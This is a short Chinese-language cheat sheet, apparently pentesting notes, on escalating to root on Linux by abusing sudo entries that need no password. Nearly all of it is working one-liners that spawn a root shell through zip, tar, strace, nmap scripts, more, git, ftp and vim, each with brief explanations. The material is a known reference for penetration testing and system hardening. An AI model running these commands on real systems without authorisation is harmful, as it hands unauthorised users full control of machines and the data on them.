 ```bash
sudo -l # 查看当前用户执行哪些 sudo 命令无需密码
```

下面只记录部分,更多内容访问 [GTFOBins](https://gtfobins.github.io/)

- zip
    ```bash
    sudo zip /tmp/tmp.zip /tmp/ -T --unzip-command="sh -c /bin/bash"

    -T 表示测试 test.zip 的完整性
    -unzip-command 与 -T 一起使用，可以指定自定义命令用于解压 test.zip
    ```

- tar
    ```bash
    sudo tar cf /dev/null test --checkpoint=1 --checkpoint-action=exec=/bin/bash

    -checkpoint-action 选项是提权点,可以自定义需要执行的动作
    ```

- strace
    ```bash
    sudo strace -o /dev/null /bin/bash
    ```

- nmap

    低版本的 nmap3.x 有 interactive 模式，且设置了 suid，这个时候可以进入交互模式 执行 !sh 命令即可轻松完成提权。
    ```bash
    echo "os.execute('/bin/bash')" > /tmp/shell.nse
    sudo nmap --script=/tmp/shell.nse
    ```

- more
    ```bash
    sudo more /etc/hosts
    !/bin/bash
    ```

- git
    ```bash
    sudo git help status
    !/bin/bash
    ```

- ftp
    ```bash
    sudo ftp
    ftp> !/bin/bash
    ```

- vim
    ```bash
    sudo vim -c '!bash'
    ```
